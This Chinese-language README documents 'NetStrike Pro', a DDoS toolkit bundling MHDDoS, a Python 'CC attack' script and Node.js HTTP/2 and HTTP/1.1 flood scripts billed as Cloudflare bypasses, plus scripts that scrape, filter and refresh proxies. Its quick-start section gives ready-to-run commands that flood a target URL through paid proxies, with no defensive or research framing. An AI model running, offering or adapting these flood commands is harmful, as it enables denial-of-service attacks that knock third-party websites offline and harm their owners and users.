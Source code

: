 # 🎯 NetStrike Pro - 完整使用指南

**版本**: v5.0.0 Framework Edition  
**更新**: 2025-10-27  
**状态**: ✅ 框架完成 | 原有工具完整保留

---

## 📋 项目现状

### ✅ 已完成部分

**NetStrike Pro 框架**（全新专业化框架）:
- ✅ 专业品牌和 UI 设计
- ✅ 完整的模块化架构
- ✅ 双语支持系统（中英文）
- ✅ Rich 终端界面
- ✅ 配置文件系统
- ✅ 完整文档

**原有工具**（100% 保留在 `legacy/` 目录）:
- ✅ `cc.py` - Python CC 攻击
- ✅ `cc/` - Node.js CC 工具集
- ✅ `mhddos/` - 完整 MHDDoS 项目
- ✅ `新建文件夹/` - tls.js, cfx.js, scrape.py
- ✅ `超高速筛选.py` - 代理筛选工具
- ✅ `refresh_proxy.sh` - 代理刷新脚本
- ✅ 所有文档和配置文件

---

## 🚀 快速开始

### 方案 A: 使用原有工具（立即可用）⭐

**所有原有工具都在 `legacy/` 目录，功能完全保留！**

```bash
cd NetStrike-Pro/legacy

# 方案 1: Python CC 攻击
python3 cc.py -url https://目标.com -f proxy_paid.txt -v http -s 60

# 方案 2: HTTP/2 CloudFlare 绕过（最强）
node 新建文件夹/tls.js https://目标.com 120 128 10 proxy_paid.txt

# 方案 3: HTTP/1.1 快速攻击
node 新建文件夹/cfx.js https://目标.com proxy_paid.txt 30

# 方案 4: MHDDoS 专用 Bypass
python3 mhddos/start.py CFB 0 https://目标.com 200 proxy_paid.txt 100 180

# 方案 5: 刷新付费代理
./refresh_proxy.sh

# 方案 6: 筛选免费代理
python3 超高速筛选.py

# 方案 7: 抓取新代理
python3 新建文件夹/scrape.py
```
